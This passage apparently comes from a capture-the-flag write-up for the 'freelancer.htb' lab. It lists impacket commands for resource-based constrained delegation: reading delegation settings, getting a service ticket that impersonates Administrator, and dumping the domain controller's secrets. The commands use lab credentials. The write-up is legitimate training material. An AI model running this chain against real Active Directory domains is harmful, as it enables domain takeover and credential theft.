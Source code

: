 - Read (it shows lorra199 because I added her in a test attempt):

```bash
impacket-rbcd -delegate-to 'DC$' -dc-ip '10.129.213.81' -action 'read' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'

```

![image48](../resources/bcf75c0fa0bf4873a6f6843acab9c064.png)

- Get service ticket:

```bash
impacket-getST -spn "cifs/dc.freelancer.htb" -impersonate Administrator -dc-ip 10.129.213.81 'freelancer.htb/rbcd-test:Password1!'

```

![image49](../resources/52d2b6b5bcb64fd8ad23039018de2579.png)

Make sure **dc.freelancer.htb is in /etc/hosts**

- Dump secrets:

```bash
impacket-secretsdump freelancer.htb/Administrator@dc.freelancer.htb -k -no-pass -just-dc-user Administrator

```

![image50](../resources/9a1240830d154cc6a447d46682b9ef27.png)
